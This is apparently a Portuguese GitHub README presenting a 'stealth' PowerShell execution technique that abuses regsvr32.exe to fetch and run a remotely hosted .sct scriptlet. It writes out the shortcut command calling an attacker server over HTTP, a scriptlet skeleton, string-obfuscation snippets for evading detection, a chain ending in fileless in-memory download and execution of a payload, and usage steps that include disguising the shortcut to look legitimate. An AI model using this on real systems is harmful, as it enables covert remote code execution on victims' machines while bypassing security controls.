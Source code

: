 # Técnica de Execução Stealth do PowerShell

Este repositório demonstra uma técnica avançada de stealth para execução de scripts PowerShell que contorna controles de segurança comuns. A implementação utiliza objetos COM, arquivos SCT e ofuscação de strings para evitar detecção enquanto executa scripts PowerShell remotos.

## Visão Geral

Esta técnica aproveita o regsvr32.exe, um binário legítimo do Windows, para carregar e executar um arquivo scriptlet (.sct) hospedado remotamente que contém código JavaScript ofuscado. Este código então executa comandos PowerShell de maneira altamente evasiva.

## Componentes

### 1. Atalho na Área de Trabalho

O ponto de entrada é um atalho do Windows com as seguintes propriedades:

```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
Estilo da Janela: Minimizada
```

### 2. Estrutura do Arquivo SCT

O arquivo SCT (Scriptlet) contém código JScript ofuscado usando múltiplas técnicas de evasão:

```xml
<?XML version="1.0"?>
<scriptlet>
<registration progid="TESTING" classid="{10001111-0000-0000-0000-0000FEEDACDC}">
<script language="JScript">
<![CDATA[
    // Código de execução ofuscado
]]>
</script>
</registration>
</scriptlet>
```

### 3. Técnicas de Evasão

A implementação usa múltiplas camadas de evasão:

- **Inversão de Strings**: Strings como "powershell.exe" são armazenadas invertidas para evitar detecção
  ```javascript
  function d(s){return s.split('').reverse().join('');}
  var p = d("exe.llehsrewop");
  ```

- **Conversão de Código de Caracteres**: Strings críticas são construídas a partir de códigos de caracteres
  ```javascript
  var cmd = String.fromCharCode(73,69,88,...);
  ```

- **Expansão de Variáveis de Ambiente**: Usa variáveis de ambiente para construir caminhos do sistema
  ```javascript
  var x = a.ExpandEnvironmentStrings(d("%RIDNIW%"));
  var e = x + d("23metsyS\\");
  ```

- **Execução Oculta**: Usa `-WindowStyle Hidden` para prevenir janelas visíveis do PowerShell

### 4. Cadeia de Execução

A cadeia completa de execução é:

1. Usuário clica no atalho
2. regsvr32.exe carrega o arquivo .sct remoto via HTTP
3. O código JScript executa com comandos ofuscados
4. PowerShell é chamado com janela oculta
5. PowerShell baixa e executa o script payload diretamente na memória

## Uso

1. Hospede o arquivo .sct em um servidor HTTP
2. Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor
3. Crie o atalho usando o script gerador fornecido
4. O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

## Detalhes Técnicos

### Parâmetros do regsvr32

- `/s`: Execução silenciosa (sem diálogos)
- `/u`: Desregistra componente (usado como parte da técnica)
- `/i:<URL>`: Especifica o script a ser carregado
- `scrobj.dll`: O Script Component Runtime que processa o scriptlet

### Considerações de Segurança

Esta técnica é eficaz em contornar controles de segurança porque:

1. regsvr32 é um binário confiável do Windows (técnica living-off-the-land)
2. Nenhum arquivo é escrito no disco (execução sem arquivos)
3. Múltiplas camadas de ofuscação de string previnem detecção estática
4. A execução do PowerShell fica oculta para o usuário
5. Usa objetos COM legítimos do Windows para execução


